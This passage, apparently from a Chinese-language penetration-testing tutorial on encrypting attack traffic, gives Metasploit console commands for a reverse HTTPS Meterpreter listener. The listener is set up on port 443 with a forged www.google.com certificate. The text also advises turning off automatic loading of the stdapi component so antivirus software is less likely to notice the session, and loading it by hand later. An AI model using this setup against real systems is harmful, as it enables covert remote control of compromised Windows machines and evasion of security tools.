 ![image-20221107111434221](流量加密/image-20221107111434221.png)



### 2.MSF开启监听

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_winhttps
payload => windows/meterpreter/reverse_winhttps
msf5 exploit(multi/handler) > set lhost 192.168.47.134
lhost => 192.168.47.134
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > set handlersslcert /root/www.google.com.pem
handlersslcert => /root/www.google.com.pem
msf5 exploit(multi/handler) > set stagerverifysslcert true
stagerverifysslcert => true
```

![image-20221107170236469](流量加密/image-20221107170236469.png)



Meterpreter 中有一个称为 "stdapi" 的组件，它提供了一个功能丰富的命令行界面，可以用来在目标系统上执行各种操作。在msf监听的设置里，默认是自动加载stdapi的，这很有可能会被杀软察觉到，因此建议在设置监听时添上`set autoloadstdapi flase`， 等目标返回meterpreter会话后，再在meterpreter命令行输入`load stdapi`将其加载
